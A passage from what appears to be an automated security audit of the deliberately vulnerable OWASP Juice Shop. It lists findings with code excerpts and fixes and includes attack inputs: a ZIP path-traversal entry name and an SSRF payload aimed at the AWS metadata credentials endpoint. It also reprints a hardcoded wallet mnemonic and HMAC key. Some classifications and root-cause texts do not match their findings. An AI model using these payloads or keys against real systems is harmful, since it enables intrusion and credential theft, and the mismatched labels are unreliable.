      endpoints: [`/api/${name}s`, `/api/${name}s/:id`],
```

**Fix:** ❶ [M-023](#m-023) — Restrict writable attributes on POST `/api/Users` to exclude the role field

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Path Traversal

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - File Upload & Processing Service  ·  **Location:** `routes/fileUpload.ts:45`

**Issue:** In handleZipFileUpload (`fileUpload.ts:40-45`), entries from a ZIP archive are extracted and written to disk. The check at line 44 evaluates `absolutePath.includes(path.resolve('.'))`.

While this check is designed to prevent writing outside the working directory, it is bypassed by the fact that `fs.createWriteStream` at line 45 receives the raw un-normalized `fileName` string: `fs.createWriteStream('uploads/complaints/' + fileName)`. A ZIP entry named `../../ftp/legal.md` produces `absolutePath = /app/ftp/legal.md` which DOES include `/app` (the working dir), so the check passes.

An unauthenticated attacker can overwrite application source files, FTP contents, or configuration files within the working directory, leading to persistent backdoor injection or data destruction.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `fileUpload.ts:45` passes the raw `entry.path` string directly to `fs.createWriteStream` without normalization, while the guard at line 44 checks the resolved absolute path - the mismatch allows traversal within the working directory.

```typescript
// routes/fileUpload.ts:45
                const absolutePath = path.resolve('uploads/complaints/' + fileName)
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
                  entry.autodrain()
                }
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❶ [M-024](#m-024) — Constrain file paths to a safe base directory

**Classification:** Insecure File Handling · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

### 🟠 High (41)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Hardcoded Cryptographic Key

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - B2B Order Processing API  ·  **Location:** `routes/checkKeys.ts:10`

**Issue:** The Ethereum wallet mnemonic `'purpose betray marriage blame crunch monitor spin slide donate sport lift clutch'` is hardcoded. Anyone with access to the repository can derive the HD wallet's private key using `HDNodeWallet.fromPhrase(mnemonic).privateKey` and take full control of any assets held at the derived address.

The `POST /rest/web3/submitKey` endpoint (`server.ts:638`) accepts a private key guess and compares it directly against this derived key - the comparison logic (`req.body.privateKey === privateKey`) also leaks timing information about the key value to brute-forcers, though the committed mnemonic makes that moot. Any repository reader can derive and exfiltrate the Ethereum wallet private key, enabling theft of all ETH and ERC-20/ERC-721 tokens held at the wallet address.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `routes/checkKeys.ts` line 10 hard-codes the BIP-39 mnemonic string; the derived private key is computed from it at runtime and compared in plaintext at line 18.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❷ [M-038](#m-038) — Move cryptographic keys to a managed secret store

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Cleartext Storage of Sensitive Data

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:342`

**Issue:** `ci.yml:342` hardcodes `heroku_email: bjoern.kimminich@owasp.org` in the Heroku deploy step. This personal email address is committed in plaintext to the public repository.

While the email itself is not a credential, it is the Heroku account identity used for deployment authentication. Exposes the Heroku account identity for production/staging deployments, facilitating targeted account-takeover attempts and reducing effective secrecy of the `HEROKU_API_KEY`.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `ci.yml:342` contains a hardcoded personal email address as the Heroku deployment identity, permanently visible in the public repository history.

```yaml
// .github/workflows/ci.yml:342
          heroku_app_name: ${{ env.HEROKU_APP }}
          heroku_email: bjoern.kimminich@owasp.org
          branch: ${{ env.HEROKU_BRANCH }}
  notify-slack:
    if: github.repository == 'juice-shop/juice-shop' && github.event_name == 'push' && (success() || failure())
```

**Fix:** ❷ [M-039](#m-039) — Stop storing sensitive data in cleartext

**Classification:** Error Information Disclosure · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts:101`

**Issue:** `login.component.ts:101` calls `localStorage.setItem('token', authentication.token)` immediately after successful login. The same pattern appears at `oauth.component.ts:51` for OAuth-based logins.

The JWT stored in `localStorage` is accessible to any JavaScript running on the same origin - including the multiple XSS sinks confirmed at angular-spa-003, -004, and -005. Any successful XSS attack can exfiltrate the JWT from localStorage, providing an attacker with a valid bearer token for the victim's account for up to 8 hours.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `localStorage.setItem('token', ...)` is called immediately on login success in both the password-login and OAuth-login paths, storing the bearer token in JavaScript-accessible browser storage.

**Fix:** ❸ [M-011](#m-011) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · OAuth Implicit Flow Without State

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts:134`

**Issue:** The Google OAuth redirect uses `response_type=token` (Implicit Flow) and constructs the authorization URL with no `state` parameter: `${oauthProviderUrl}?client_id=${this.clientId}&response_type=token&scope=email&redirect_uri=${this.redirectUri}`. With no `state` value, the OAuth callback cannot be bound to the originating session, enabling CSRF-style attacks where an attacker initiates an OAuth flow, replaces the `code` step, and forces the victim's browser to authenticate with the attacker's access token (token injection).

The Implicit Flow itself causes the `access_token` to appear in the URL fragment, as confirmed by `app.routing.ts:262` which matches `#access_token=` in the URL. An attacker can inject an attacker-controlled OAuth token into the victim's session (token injection / CSRF via OAuth), gaining authenticated access as the victim.

**Evidence:** ✓ verified - `googleLogin()` calls `location.replace()` with a hardcoded `response_type=token` and no `state` parameter, triggering the OAuth Implicit Flow.

```typescript
// frontend/src/app/login/login.component.ts:134

  googleLogin () {
    this.windowRefService.nativeWindow.location.replace(`${oauthProviderUrl}?client_id=${this.clientId}&response_type=token&scope=email&redirect_uri=${this.redirectUri}`)
  }
}
```

**Fix:** ❷ [M-025](#m-025) — Replace OAuth Implicit Flow with Authorization Code Flow with PKCE and state validation

**Classification:** OAuth / OIDC Misconfiguration · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Weak Password Recovery Mechanism

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:346`

**Issue:** The password reset endpoint `/rest/user/reset-password` is rate-limited to 100 requests per 5 minutes per IP (`server.ts:343-347`). However, `app.enable('trust proxy')` is set globally (line 342), and the rate-limit `keyGenerator` reads `headers['X-Forwarded-For'] ??

ip` directly from the request headers (line 346). Attacker can enumerate security question answers for any account and execute full account takeover via the password reset flow.

**Evidence:** ✓ verified - `server.ts:346` uses `headers['X-Forwarded-For']` as the rate-limit key without validating that the header comes from a trusted upstream proxy - any client can set this header.

```typescript
// server.ts:346
    windowMs: 5 * 60 * 1000,
    max: 100,
    keyGenerator ({ headers, ip }: { headers: any, ip: any }) { return headers['X-Forwarded-For'] ?? ip } // vuln-code-snippet vuln-line resetPasswordMortyChallenge
  }))
  // vuln-code-snippet end resetPasswordMortyChallenge
```

**Fix:** ❷ [M-026](#m-026) — Key rate limiting on the server-validated remote IP, not client X-Forwarded-For

**Classification:** Injection · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Unpinned GitHub Action Tag Reference

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/codeql-analysis.yml:23`

**Issue:** `codeql-analysis.yml:23`, `codeql-analysis.yml:34`, and `codeql-analysis.yml:36` reference `github/codeql-action/init@v3`, `autobuild@v3`, and `analyze@v3` via mutable tag references. The `@v3` tag is a pointer the upstream maintainer can move to any commit at any time.

An attacker who compromises the `github/codeql-action` repository (via a maintainer account, a malicious PR merged through a weak review process, or a tag-pointer rewrite) can redirect `@v3` to a malicious commit. A compromised `@v3` tag allows arbitrary code execution in the CI runner with repository token privileges, enabling secret exfiltration, suppression of security findings, or artifact tampering.

**Evidence:** ✓ verified - `github/codeql-action/init@v3`, `autobuild@v3`, and `analyze@v3` at lines 23, 34, and 36 use mutable `@v3` tag references instead of commit SHA pins.

```yaml
// .github/workflows/codeql-analysis.yml:23
      uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
```

**Fix:** ❷ [M-027](#m-027) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:309`

**Issue:** The POST `/file-upload` route registered has no authentication middleware before the handler chain (`uploadToMemory.single('file'), ensureFileIsPassed, checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handleYamlUpload`). Any unauthenticated network actor - including anonymous internet users - can submit XML, ZIP, or YAML payloads and trigger server-side XML parsing with `noent:true`, ZIP archive extraction, and YAML deserialization.

The attacker does not need to possess any credential, session token, or account. An anonymous attacker gains access to XML entity resolution, ZIP extraction, and YAML deserialization code paths that should be limited to authenticated B2B customers.

**Evidence:** ✓ verified - `server.ts:309` registers POST `/file-upload` with no auth middleware; the next auth gate after line 309 is at line 353 (JWT challenge verification), which does not protect this route.

```typescript
// server.ts:309
  app.use(bodyParser.urlencoded({ extended: true }))
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
```

**Fix:** ❷ [M-028](#m-028) — Enforce JWT authentication middleware on POST `/file-upload` before all upload handlers

**Classification:** Broken Authentication · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:24`

**Instances (3):** `lib/startup/registerWebsocketEvents.ts:24`, `lib/startup/registerWebsocketEvents.ts:34`, `lib/startup/registerWebsocketEvents.ts:41`

**Issue:** Any internet-facing client can open a Socket\.IO connection to ws://host:3000/socket.io/ without presenting any credential. The `io.on('connection', ...)` handler at line 24 applies no authentication middleware, JWT check, or session validation before processing the socket.

An unauthenticated attacker can connect and (1) receive all pending `challenge solved` notifications buffered in-memory, (2) send `notification received` messages to delete others' notifications, and (3) trigger challenge-verification handlers. Any external actor gains full access to real-time server state and all message handlers, indistinguishable from an authenticated session.

**Evidence:** ✓ verified - `io.on('connection', (socket: any) => { ... })` at line 24 executes all message handlers with no preceding authentication check or middleware.

```typescript
// lib/startup/registerWebsocketEvents.ts:24
  globalWithSocketIO.io = io

  io.on('connection', (socket: any) => {
    if (firstConnectedSocket === null) {
      socket.emit('server started')
```

**Fix:** ❷ [M-029](#m-029) — Add authentication middleware to Socket\.IO connection handler

**Classification:** Injection · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Password Hash with Insufficient Effort

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:43`

**Issue:** All user passwords are hashed with `MD5` (`crypto.createHash('md5')` at `lib/insecurity.ts:43`). `MD5` is a fast, unsalted hash with multi-billion-per-second GPU cracking speeds and massive publicly available rainbow tables (e.g., CrackStation).

An attacker who obtains the `Users` table via SQL injection (auth-001) or a direct DB breach can crack all user passwords within minutes to hours for common passwords, and recover the admin password `admin123` (verified by the hardcoded challenge check at `routes/login.ts:60`) trivially. DB breach yields plaintext passwords for virtually all users within hours, enabling mass account takeover and credential reuse attacks against external services.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `security.hash()` at `lib/insecurity.ts:43` calls `crypto.createHash('md5')` with no salt - used in every password compare path including login (`routes/login.ts:34`) and 2FA (`routes/2fa.ts:113`).

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❷ [M-032](#m-032) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Disabled Lockfile Enforcement Allows Dependency

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.npmrc:1`

**Issue:** `.npmrc` contains `package-lock=false`, which instructs npm to skip writing and reading `package-lock.json`. When `npm install` runs in CI (e.g. `ci.yml:85`, `ci.yml:125`, `ci.yml:211`), npm resolves dependency versions fresh from the registry each time, without a pinned lockfile to enforce reproducibility.

A dependency that publishes a malicious patch version within the declared semver range (e.g. `*`, `^x.y.z`, `~x.y.z`) is silently installed on the next CI run. A malicious transitive dependency published to npm within an existing semver range executes arbitrary code during CI builds, with access to `DOCKERHUB_TOKEN`, `HEROKU_API_KEY`, `CYPRESS_RECORD_KEY`, and `GITHUB_TOKEN`.

**Evidence:** ✓ verified - `.npmrc:1` sets `package-lock=false`, disabling lockfile generation and reproducible installs across all CI jobs that call `npm install` without `--ignore-scripts`.

```
// .npmrc:1
package-lock=false
```

**Fix:** ❷ [M-033](#m-033) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Unsafe Postinstall Hook Execution During

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Issue:** `Dockerfile:5` runs `npm install --omit=dev --unsafe-perm`. The `--unsafe-perm` flag disables npm's safety restriction that would otherwise drop privileges during lifecycle scripts.

In the `FROM node:24` build stage, this means postinstall hooks in any npm dependency run as the container build user (typically root inside the Docker build context). A compromised npm dependency can inject code into the published Docker image shipped to all Juice Shop users and deployments.

**Evidence:** ✓ verified - `Dockerfile:5` uses `--unsafe-perm` with `npm install`, allowing lifecycle hooks to run as root and modify any file in the build context before it is copied to the production image.

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-034](#m-034) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:338`

**Issue:** `server.ts:338` configures `morgan('combined')` which logs HTTP request lines to `logs/access.log.%DATE%`. No structured security event log records authentication outcomes, JWT rejections, admin actions, or data mutations.

An attacker who exploits the SQLi login bypass, forges a JWT, or dumps the database via search SQLi produces no security alert. Post-incident forensics cannot reconstruct which accounts were compromised, when JWT forgery occurred, or which data was exfiltrated.

**Evidence:** ✓ verified - `server.ts:338` installs only HTTP access logging; no structured security-event sink records authentication events, JWT issuance, role changes, or admin endpoint hits.

```typescript
// server.ts:338
    max_logs: '2d'
  })
  app.use(morgan('combined', { stream: accessLogStream }))

  // vuln-code-snippet start resetPasswordMortyChallenge
```

**Fix:** ❷ [M-036](#m-036) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · OAuth Access Token Exposed URL

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.routing.ts:262`

**Issue:** The OAuth Implicit Flow (confirmed at `login.component.ts:134` with `response_type=token`) causes Google to redirect back with the `access_token` in the URL fragment: `https://juice-shop.example/#access_token=ya29.xxx&token_type=Bearer`. The `oauthMatcher` explicitly checks `path.includes('#access_token=')` to trigger the OAuth callback handler.

The access token in the URL fragment leaks through: (1) browser history - the token URL is stored in the browser's History API; (2) HTTP Referer headers if the user navigates to a third-party resource on the same page; (3) server logs if any redirects occur. The OAuth access token leaks into browser history and potentially server logs, allowing passive attackers or malicious browser extensions to steal a valid Google access token.

**Evidence:** ✓ verified - The `oauthMatcher` function checks `window.location.href.includes('#access_token=')`, confirming the OAuth flow delivers tokens in the URL fragment via the Implicit Flow pattern.

```typescript
// frontend/src/app/app.routing.ts:262
  }
  const path = window.location.href
  if (path.includes('#access_token=')) {
    return ({ consumed: url })
  }
```

**Fix:** ❷ [M-037](#m-037) — Eliminate token-in-fragment by migrating to Authorization Code Flow with PKCE

**Classification:** OAuth / OIDC Misconfiguration · [CWE-598](https://cwe.mitre.org/data/definitions/598.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Uses --unsafe-perm flag

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Issue:** The --unsafe-perm flag causes npm to run postinstall lifecycle scripts as root during the Docker build. If any dependency is compromised, the attacker's postinstall code executes with full root privileges inside the build container, potentially writing malicious artifacts into the image.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-002](#m-002) — Drop unnecessary privileges in build and runtime

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml`

**Instances (2):** `.github/workflows/ci.yml`, `.github/workflows/release.yml`

**Issue:** The CI/CD Pipeline workflow (`ci.yml`) has no explicit permissions block. The GITHUB_TOKEN therefore inherits the repository default, which is commonly write-all. Any compromised step or action in this workflow could push code, create releases, or approve PRs.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

**Fix:** ❷ [M-003](#m-003) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Third-party GitHub Action not pinned

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:161`

**Instances (2):** `.github/workflows/ci.yml:161`, `.github/workflows/codeql-analysis.yml:22`

**Issue:** The 'coverallsapp/github-action' action is pinned to the mutable tag '@v2'. A compromised publisher can retroactively modify this tag to execute malicious code within the CI pipeline, with access to GITHUB_TOKEN and any other workflow secrets.

**Evidence:** ✓ verified

```yaml
// .github/workflows/ci.yml:161
          name: api-test-lcov
      - name: "Publish coverage to Coveralls"
        uses: coverallsapp/github-action@v2
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
```

**Fix:** ❷ [M-004](#m-004) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.npmrc:1`

**Issue:** The .npmrc file sets 'package-lock=false', disabling lockfile generation. Without `package-lock.json`, each 'npm install' can resolve different transitive dependency versions.

Supply-chain attacks (dependency confusion, malicious version bumps) become undetectable because there is no integrity baseline to compare against.

**Evidence:** ✓ verified

```
// .npmrc:1
package-lock=false
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-005](#m-005) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Instances (2):** `Dockerfile:1`, `Dockerfile:23`

**Issue:** The installer stage base image 'node:24' is referenced by tag only. A malicious or compromised Docker Hub publisher could silently replace the tag to inject code into every build. Digest-pinning (@sha256:...) prevents this substitution.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-006](#m-006) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:277`

**Issue:** `server.ts:277-278` registers `app.use('/encryptionkeys', serveIndex('encryptionkeys', { icons: true, view: 'details' }))` and `app.use('/encryptionkeys/:file', serveKeyFiles())` with no authentication middleware. The directory contains `jwt.pub` (the RSA-2048 public key used to verify JWT tokens) and `premium.key` (used for premium membership entitlement).

The RSA private key is hardcoded in `lib/insecurity.ts:23` as a multiline string literal. Exposure of `jwt.pub` combined with the hardcoded private key (`lib/insecurity.ts:23`) enables JWT forgery, allowing impersonation of any user.

Exposure of `premium.key` enables premium content bypass.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `server.ts:277` mounts serveIndex on `/encryptionkeys` with no `isAuthorized()` middleware; `routes/keyServer.ts:10`-18 confirms files are served from the directory by filename without any auth check.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-040](#m-040) — Stop exposing internal information to clients

**Classification:** Unauthenticated Management Plane · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Weak MD5 Password Hashing Without

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer (SQLite + MarsDB)  ·  **Location:** `lib/insecurity.ts:43`

**Issue:** `lib/insecurity.ts:43` defines `export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')`. This unsalted `MD5` hash is applied to every user password before storage (`models/user.ts:77`).

`MD5` is not a password hashing function - it is a general-purpose hash with no work factor, no salt, and is trivially reversible for common passwords via rainbow tables or GPU-accelerated brute force. All user account passwords can be recovered from the database via rainbow tables or brute force, enabling account takeover across the user base.

**Evidence:** ✓ verified - `lib/insecurity.ts:43` calls crypto.createHash('md5') for password hashing; `models/user.ts:77` calls `security.hash`(clearTextPassword) in the Sequelize setter, storing the result as the user's password.

```typescript
// lib/insecurity.ts:43
}

export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')
export const hmac = (data: string) => crypto.createHmac('sha256', 'pa4qacea4VK9t9nGv7yZtwmj').update(data).digest('hex')

```

**Fix:** ❷ [M-041](#m-041) — Replace MD5 password hashing with bcrypt or Argon2

**Classification:** Unauthenticated Management Plane · [CWE-256](https://cwe.mitre.org/data/definitions/256.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Error Message Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:676`

**Issue:** `server.ts:676` uses the `errorhandler` npm package (`const errorhandler = require('errorhandler')`). This package, designed for development, renders a full HTML page with the error message, stack trace, file path, and line number when an unhandled exception propagates.

When `NODE_ENV` is not explicitly set to `production`, `errorhandler` sends this to the browser. Stack traces and library versions delivered in 500 responses aid targeted exploit selection against known `Express/Node.js` CVEs.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `server.ts:676` installs the `errorhandler` dev-mode package as the final error middleware; `server.ts:719` sets its title to expose the Express version.

```typescript
// server.ts:676
  /* Error Handling */
  app.use(verify.errorHandlingChallenge())
  app.use(errorhandler())
}).catch((err) => {
  console.error(err)
```

**Fix:** Replace developer error pages with a generic message in production responses → ❷ [M-042](#m-042) — Return generic error messages to clients

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Directory Listing Exposure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:269`

**Issue:** `server.ts:269` serves `/ftp/` directory listing and file download with `serveIndex('ftp', { icons: true })` and `servePublicFiles()` - no `security.isAuthorized()` middleware. Likewise `server.ts:277` serves `/encryptionkeys/` listing with no auth.

`jwt.pub` is directly downloadable at `/encryptionkeys/jwt.pub`. Unauthenticated download of the JWT public key (used to forge `HS256` tokens) and confidential files from the FTP directory.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `server.ts:269-277` registers `serveIndex` and `express.static`-equivalent handlers for `/ftp/` and `/encryptionkeys/` with no auth middleware before or after.

```typescript
// server.ts:269
  // vuln-code-snippet start directoryListingChallenge accessLogDisclosureChallenge
  /* /ftp directory browsing and file download */ // vuln-code-snippet neutral-line directoryListingChallenge
  app.use('/ftp', serveIndexMiddleware, serveIndex('ftp', { icons: true })) // vuln-code-snippet vuln-line directoryListingChallenge
  app.use('/ftp(?!/quarantine)/:file', servePublicFiles()) // vuln-code-snippet vuln-line directoryListingChallenge
  app.use('/ftp/quarantine/:file', serveQuarantineFiles()) // vuln-code-snippet neutral-line directoryListingChallenge
```

**Fix:** ❷ [M-043](#m-043) — Gate /encryptionkeys/ and /ftp/ routes behind admin-only isAuthorized middleware

**Classification:** Error Information Disclosure · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Server-Side Request Forgery (SSRF)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `routes/profileImageUrlUpload.ts:24`

**Issue:** `routes/profileImageUrlUpload.ts:24` calls `fetch(url)` where `url = req.body.imageUrl` with no scheme or host validation. An authenticated user submits `imageUrl=http://169.254.169.254/latest/meta-data/iam/security-credentials/` to probe the AWS instance metadata service.

